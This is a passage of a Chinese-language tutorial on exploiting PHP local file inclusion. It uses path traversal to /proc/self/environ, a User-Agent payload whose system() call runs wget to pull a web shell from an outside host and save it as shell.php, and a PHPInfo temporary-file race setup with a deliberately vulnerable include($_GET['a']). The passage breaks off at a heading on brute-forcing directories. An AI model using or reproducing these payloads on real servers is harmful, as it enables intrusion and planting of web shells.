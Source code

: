```php
//检查proc/self/environ是否可用访问
?page=../../../../../proc/self/environ
//Firefox的插件改变Firefox的User-Agent.Start篡改数据和请求URL：
?page=../../../../../proc/self/environ
选择User-Agent 写代码如下：
<?system('wget http://hack-bay.com/Shells/gny.txt -O shell.php');?>
```
利用三.LFI with PHPInfo本地测试过程
```php
//phpinfo文件
<?php

phpinfo();
sleep(1000);//没写脚本暂时测试
?>
//文件包含文件
<?php
include($_GET['a']);
?>
//上传文件

<form action="phpinfo.php" method="post"
enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<br />
<input type="submit" name="submit" value="Submit" />
</form>
//上传的文件里面内容为
<?php

file_put_contents('c:/phpstudy/www/dd.php','<?php phpinfo();?>')
?>
```
在本地向服务器上传文件<br>
在删除文件之前包含上传的临时文件
phpinfo文件

![Alt text](20.png)
#### 利用windowns的findfirster爆破目录文件(包含不知名文件)
